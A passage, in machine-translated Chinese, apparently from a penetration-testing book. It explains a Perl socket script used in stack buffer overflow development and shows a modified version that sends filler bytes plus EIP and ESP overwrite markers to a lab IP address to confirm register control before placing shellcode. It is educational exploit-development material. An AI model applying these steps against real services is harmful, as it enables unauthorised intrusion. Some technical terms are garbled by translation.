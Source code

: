 ### 剧本

让我们分析一下我们使用的脚本。第一行写着`use strict`是一个**布拉格语**。它做了两件事，使得编写糟糕的软件变得更加困难。它使您能够声明所有变量，并且使 Perl 在使用 Sub 时更难误解您的意图。现在，`socket`定义了`PF_INET`和`SOCK_STREAM`的用法，用于建立连接。接下来，我们用发送给目标的值创建所需的变量。`getprotobyname()`方法为数据库中与协议名称匹配的条目返回预定义的结构，在我们的例子中是 TCP。`Inet_aton()`方法将 IP 的结构更改为二进制形式。`sockaddr_in`方法使用目标端口定义到目标主机的连接。接下来，我们设置一个套接字并建立连接。现在，我们只需使用`print SOCKET`命令将数据放入已建立的套接字，该命令将数据发送到目标。

## 为了乐趣和利润而填充应用程序

假设覆盖应用程序的 EIP 寄存器。但是，我们仍然无法执行有效负载。在这种情况下，我们分析寄存器，发现外壳代码没有加载到正确的位置。因此，如果不知道如何将值加载到准确的位置，我们将无法正确执行我们的漏洞利用。当 EIP 和 ESP 之间存在一定空间时，可能会出现这种情况。在下一节中，我们将了解如何克服这些情况，并将数据填充到所需的位置。

## 检查 ESP

在我们确认缓冲区的大小后，我们的下一个任务是确认 ESP 上外壳代码的启动。让我们向 ESP 发送一些数据，并检查是否正确加载到 ESP 中。要实现这一点，我们需要修改脚本以发送包含 ESP 内容的数据，如以下代码段所示：

```
use strict;
use Socket;
my $bufstuff = "\x41" x204;
my $eip  = "\x42\x42\x42\x42";
my $esp = "\x43\x43\x43";
my $targetaddr = shift || '192.168.75.130';
my $targetport = shift || 200;
my $tcpproto = getprotobyname('tcp');
my $binaryaddr = inet_aton($targetaddr);
my $openaddr = sockaddr_in($targetport, $binaryaddr);
print "[+] Setting and Preparing the Socket\n";
socket(SOCKET, PF_INET, SOCK_STREAM, $tcpproto) or die "socket: $!";
print "[+] Connecting to $targetaddr on port $targetport\n";
connect(SOCKET, $openaddr) or die "connect: $!";
print "[+] Sending Data\n";
print SOCKET $bufstuff. $eip. $esp."\n";
print "[+] Data Sent\n";
close SOCKET or die "close: $!";
```

我们可以看到，我们已经创建了一个新变量`esp`并为其分配了三个`C`。让我们再次开始发送数据的过程，并检查数据是否正确加载到 ESP 寄存器中：

![Examining ESP](img/2223OS_03_34.jpg)

我们可以清楚地看到，ESP 的内容是**CCC**。这标志着 ESP 寄存器的成功覆盖。我们现在可以直接将外壳代码发送到 ESP。
